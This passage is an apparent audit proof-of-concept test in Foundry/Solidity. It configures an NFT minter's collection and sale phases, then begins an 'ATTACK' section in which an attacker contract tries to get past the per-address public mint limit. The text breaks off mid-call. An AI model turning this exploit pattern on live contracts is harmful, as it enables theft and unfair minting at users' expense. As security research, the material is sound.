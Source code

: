 ```js

        /// set randomizer contracts
        hhCore.addRandomizer(1, address(hhRandomizer));

        hhMinter.setCollectionCosts(
            1, // collectionID
            1 ether, // collectionMintCost
            0, // collectionEndMintCost -- does not matter for salesOption 1
            0, // rate -- does not matter for salesOption 1
            0, // timePeriod -- does not matter for salesOption 1
            1, // salesOption
            address(0)
        );

        /// specify the correct merkle root
        merkleRoot = merkleRoot_msgSender;

        hhMinter.setCollectionPhases(
            1, // collectionID
            block.timestamp, // _allowlistStartTime
            block.timestamp + 1 days, // _allowlistEndTime
            block.timestamp + 1 days + 1, // _publicStartTime
            block.timestamp + 2 days, // _publicEndTime
            merkleRoot
        );

        /// minting
        vm.prank(addr1);
        hhMinter.mint{value: (19 ether)}(
            1, // collectionID
            19, // numberOfTokens
            19, // maxAllowance -- has to exactly match merkle root's value
            '{"tdh": "100"}', // tokenData
            addr1, // mintTo
            _merkleProof_msgSender,
            address(0), // no delegator, self-mint
            2 // varg0
        );
        // time for public minting now
        vm.warp(block.timestamp + 1 days + 1);
        vm.prank(attacker);
        vm.expectRevert("Change no of tokens"); // can't mint 80 tokens, only 1 is allowed per address
        hhMinter.mint{value: (1 ether)}(
            1, // collectionID
            80, // numberOfTokens
            0, // maxAllowance -- doesn't matter for public minting
            '{"tdh": "100"}', // tokenData
            address(contractKiller), // mintTo
            new bytes32[](1), // no merkle proof required for public minting
            address(0), // no delegator, self-mint
            2 // varg0
        );

        //====================================================
        //              ATTACK
        //====================================================
        vm.prank(attacker);
        hhMinter.mint{value: (1 ether)}(
            1, // collectionID
            1, // numberOfTokens
            0, // maxAllowance -- doesn't matter for public minting
            '{"tdh": "100"}', // tokenData
```
